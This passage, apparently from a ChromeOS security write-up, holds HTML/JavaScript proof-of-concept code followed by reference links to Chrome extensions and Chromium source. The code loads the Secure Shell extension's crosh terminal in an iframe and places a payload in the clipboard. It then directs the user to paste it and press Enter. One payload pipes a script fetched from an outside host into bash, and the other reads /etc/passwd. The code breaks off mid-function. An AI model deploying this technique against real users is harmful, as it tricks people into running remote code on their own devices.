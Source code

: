 ```html
    <input id="inputElem" />
    <iframe id="croshFrame"></iframe>
    <script>
      var showFrame = () => {
        croshFrame.classList.add("show");
      };

      var shouldShow = window.location.search.indexOf("show") > -1;

      if (shouldShow) {
        showFrame();
      }

      var setClipboard = async (text) => {
        const type = "text/plain";
        const blob = new Blob([text], { type });
        const data = [new ClipboardItem({ [type]: blob })];

        await navigator.clipboard.write(data);
      };

      var setupPayload1 = () => {
        console.info("Setup payload 1");
        var setPayload1 = async () => {
          console.info("Setting payload 1");
          var clipboardSuccess = false;
          try {
            var dangerZone = window.location.search.indexOf("danger") > -1;
            if (dangerZone) {
              // Use payload below if you trust me (does nothing malicious)
              await setClipboard(
                "shell || curl https://aogarantiza.com/chromium/crosh-payload.txt | bash",
              );
            } else {
              await setClipboard("shell || cat /etc/passwd");
            }
            clipboardSuccess = true;
          } catch (e) {
            instructions.innerText = "Please press space or any letter key.";
          }
          if (clipboardSuccess) {
            window.removeEventListener("keydown", setPayload1);
            croshFrame.src =
              "chrome-extension://iodihamcpbpeioajjeobimgagajmlibd/html/nassh.html#crosh";
            instructions.innerText = "Please wait...";
          }
        };
        window.addEventListener("keydown", setPayload1);
      };

      var frameLoadCount = 0;
      croshFrame.addEventListener("load", () => {
        // First load isn't a usable prompt
        frameLoadCount++;
        if (frameLoadCount >= 2) {
          setTimeout(() => {
            // Slight delay to allow crosh to initialize and be ready for input
            // Ctrl+J can also be used instead of Enter.
            instructions.innerText =
              "Please press Ctrl+Shift+V.\nThen press Enter.\n\nThen repeat the steps above.";
            setTimeout(() => {
              showFrame();
              croshFrame.classList.add("enablePointerEvents");
```

[^0-0]: <https://chrome.google.com/webstore/detail/perfetto-ui/lfmkphfpdbjijhpomgecfikhfohaoine>
[^1-0]: <https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/extensions/api/debugger/debugger_api.cc;drc=3ecbe8e3eacb4ac62561e9e786e40e7e60eefd44;l=154>
[^0-1]: <https://chrome.google.com/webstore/detail/screen-reader/kgejglhpjiefppelpmljglcjbhoiplfn>
[^1-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/>
[^2-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=71;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^3-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=312;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^4-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_util.js;l=78;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^5-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/pdf_processor.js;l=138;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^0-2]: <https://chrome.google.com/webstore/detail/form-troubleshooter/lpjhcgjbicfdoijennopbjooigfipfjh>
[^1-2]: <https://github.com/GoogleChromeLabs/form-troubleshooter>
[^0-3]: <https://chrome.google.com/webstore/detail/secure-shell/iodihamcpbpeioajjeobimgagajmlibd>
[^1-3]: <https://chrome.google.com/webstore/detail/deprecated-secure-shell-a/pnhechapfaindjhompbnflcldabbghjo>